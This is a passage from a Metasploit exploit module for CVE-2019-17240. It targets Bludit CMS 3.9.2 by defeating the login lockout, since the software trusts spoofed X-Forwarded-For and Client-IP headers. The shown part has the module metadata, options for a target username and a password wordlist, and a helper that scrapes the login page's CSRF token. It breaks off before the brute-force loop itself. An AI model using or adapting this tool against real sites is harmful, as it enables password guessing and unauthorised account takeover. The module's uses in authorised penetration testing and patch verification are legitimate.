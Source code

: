 ```ruby
      'Name'           => "Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass",
      'Description'    => %q{
        Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to login incorrectly ten times or more. Within the bl-kernel/security.class.php file, a function named getUserIp attempts to determine the valid IP address of the end-user by trusting the X-Forwarded-For and Client-IP HTTP headers.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'rastating', # Original discovery
          '0ne-nine9'  # Metasploit module
        ],
      'References'     =>
        [
          ['CVE', '2019-17240'],
          ['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
          ['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-10-05",
      'DefaultTarget'  => 0))
      
     register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptPath.new('PASSWORDS', [ true, 'The list of passwords',
        	File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
      ])
  end
  
  # -- Exploit code -- #
  # dirty workaround to remove this warning:
#   Cookie#domain returns dot-less domain name now. Use Cookie#dot_domain if you need "." at the beginning.
# see https://github.com/nahi/httpclient/issues/252
class WebAgent
  class Cookie < HTTP::Cookie
    def domain
      self.original_domain
    end
  end
end

def get_csrf(client, login_url)
  res = client.get(login_url)
  csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end

```